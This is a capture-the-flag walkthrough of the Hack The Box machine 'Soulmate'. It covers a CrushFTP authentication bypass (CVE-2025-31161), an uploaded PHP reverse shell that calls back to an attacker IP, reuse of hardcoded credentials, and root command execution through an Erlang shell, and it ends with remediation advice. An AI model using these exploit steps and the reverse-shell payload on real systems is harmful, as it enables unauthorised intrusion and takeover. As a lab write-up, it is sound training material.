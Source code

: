 # Soulmate — Hack The Box

## Machine Info

- Difficulty: Easy  
- OS: Linux  
- IP: 10.10.11.86  
- Release date: 2025-10-30  
- Points: 20

---

## Summary

Soulmate is an Easy Linux box.  
It exposes a CrushFTP web interface vulnerable to an authentication bypass, CVE-2025-31161.  
I created an admin user, used the web UI to upload a PHP reverse shell, and obtained a `www-data` shell.  
I found hardcoded SSH credentials in an Erlang startup script.  
I used those creds to access an Erlang-based SSH service running as root, and executed commands via the Erlang shell.  
Root was obtained.

---

## Recon

Run a quick nmap scan:

```bash
nmap -sC -sV -oN nmap_initial.txt 10.10.11.86
````

Key results:

```
22/tcp open  ssh     OpenSSH 8.9p1
80/tcp open  http    nginx 1.18.0
```

Add host entries:

```bash
echo "10.10.11.86 soulmate.htb" | sudo tee -a /etc/hosts
echo "10.10.11.86 ftp.soulmate.htb" | sudo tee -a /etc/hosts
```

Discover virtual hosts with ffuf:

```bash
ffuf -u http://10.10.11.86/ -H 'Host: FUZZ.soulmate.htb' \
  -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -ac -t 50
```

Found `ftp.soulmate.htb`.
`ftp.soulmate.htb` runs CrushFTP, version 11.W.657.

---

## Initial Access

Search for CrushFTP exploits.
CVE-2025-31161 is an authentication bypass that allows creating admin users.

Exploit with the public script:

```bash
searchsploit -m 52295
python3 52295.py --target ftp.soulmate.htb --port 80 --check
python3 52295.py --target ftp.soulmate.htb --port 80 --exploit \
  --new-user hackerman --password 'Password123!'
```

Log in to CrushFTP web UI:

* URL: `http://ftp.soulmate.htb/WebInterface/login.html`
* User: `hackerman`
* Pass: `Password123!`

Use the file browser to inspect the filesystem.
Locate `/webProd/`, the web app root.

Create a PHP reverse shell:

```bash
cat > revshell.php << 'EOF'
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.114/4444 0>&1'");
?>
EOF
```

Upload `revshell.php` via CrushFTP to `/webProd/`.

Start a listener:

```bash
nc -lvnp 4444
```

Trigger the shell:

```bash
curl http://soulmate.htb/revshell.php
```

Stabilize the shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

You now hold a `www-data` shell.

---

## Privilege Escalation to User

Enumerate services and files.

Check listening ports:

```bash
netstat -tulnp
```

Notable ports:

* `127.0.0.1:2222` LISTEN (internal SSH service)
* `0.0.0.0:4369` LISTEN (EPMD, Erlang Port Mapper Daemon)

Search for Erlang service files:

```bash
find / -name "*erlang*" -type f 2>/dev/null
cat /etc/systemd/system/erlang_ssh.service
```

Service runs as `root`:

```
ExecStart=/usr/local/bin/escript /usr/local/lib/erlang_login/start.escript
User=root
```

Read the startup script:

```bash
cat /usr/local/lib/erlang_login/start.escript
```

Found hardcoded credentials:

```erlang
{user_passwords, [{"ben", "HouseH0ldings998"}]}
```

SSH to the machine as `ben`:

```bash
ssh ben@10.10.11.86
# password: HouseH0ldings998
```

Read user flag:

```bash
cat /home/ben/user.txt
# HTB{redacted}
```

---

## Privilege Escalation to Root

Check sudo privileges:

```bash
sudo -l
# no sudo for ben
```

Connect to the Erlang SSH service on localhost as ben:

```bash
ssh ben@127.0.0.1 -p 2222
# password: HouseH0ldings998
```

You reach an Erlang shell:

```
Eshell V15.2.5
(ssh_runner@soulmate)1>
```

Erlang's `os:cmd/1` runs commands as the Erlang process user.
Verify root:

```erlang
os:cmd("whoami").
% "root\n"
```

Read root flag:

```erlang
os:cmd("cat /root/root.txt").
% "HTB{redacted}\n"
```

---

## Findings

* CVE-2025-31161, CrushFTP auth bypass.
* Web upload allowed PHP shells.
* Hardcoded credentials in a startup script.
* Erlang SSH service ran as root and allowed shell commands.

---

## Remediation

* Patch CrushFTP to a fixed version.
* Block web uploads of executable code. Validate content and store uploads outside web root.
* Remove hardcoded credentials. Use a secrets store with restricted access.
* Run services with least privilege. Avoid running network-exposed services as root.
* Restrict internal services. Do not expose sensitive internal interfaces to web processes.

---

## Tools

* nmap
* ffuf
* searchsploit
* netcat
* ssh
* python3

---

## Notes

* User flag: `HTB{redacted}`
* Root flag: `HTB{redacted}`
* Owned: 2025-10-30
* Platform: Hack The Box
